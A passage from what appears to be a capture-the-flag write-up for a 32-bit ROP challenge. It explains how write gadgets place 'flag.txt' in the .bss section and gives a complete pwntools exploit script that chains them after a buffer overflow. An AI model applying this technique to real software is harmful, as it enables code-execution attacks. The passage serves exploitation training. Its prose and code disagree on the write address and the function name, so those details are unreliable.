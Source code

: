 Next, we need to find suitable write gadgets to write the value `flag.txt` into `0x0804A020`. The following shows two of the gadgets which is used in the exploit.

Firstly, we first use the `pop edi` instruction to pop the value `0x0804A020` into `edi`, then we pop `flag` into the `ebp` register. Secondly, the instruction `mov dword ptr [edi], ebp` writes the value `flag` to `0x0804A020`. Thirdly, we pop the value `0x0804A020 + 4` into `edi` and `.txt` into the `ebp` register. Finally we write `.txt` to `0x0804A020 + 4`. Thus this setups the argument into memory and we also know the write location. Thus we can now call `print_flag()` with the argument `0x0804A020`. Note that this is possible due to the lack of ASLR thus we can always expect the `.bss` section to start at `0x0804A020`.

```asm
0x080485aa : pop edi ; pop ebp ; ret
0x08048543 : mov dword ptr [edi], ebp ; ret
```

Thus, we can now write our exploit. The following is the python script used to solve this challenge. 

```python
#!/usr/bin/env python3

from pwn import *

OFFSET = 44

def main():
    elf = ELF('write432')
    libc = ELF('libwrite432.so')
    p = process('./write432')
    
    print(p.recvlines(timeout=1))
    
    print_file = elf.symbols['print_file']
    pop_edi_ebp = p32(0x080485aa)             # 0x080485aa : pop edi ; pop ebp ; ret
    mov_edi_ebp = p32(0x08048543)             # 0x08048543 : mov dword ptr [edi], ebp ; ret
    write_loc = 0x804a030
    
    print(f"print_file is located at {hex(print_file)}")
    
    payload = b'A' * 44
    
    payload += pop_edi_ebp
    payload += p32(write_loc)
    payload += b'flag'
    
    payload += mov_edi_ebp
    
    payload += pop_edi_ebp
    payload += p32(write_loc + 4)
    payload += b'.txt'
    
    payload += mov_edi_ebp
    
    # call print_file
    payload += p32(print_file) 
    payload += b"B" * 4 
    payload += p32(write_loc)
    
    p.sendline(payload)
    
    p.interactive()
    
if __name__=='__main__':
    main()
```

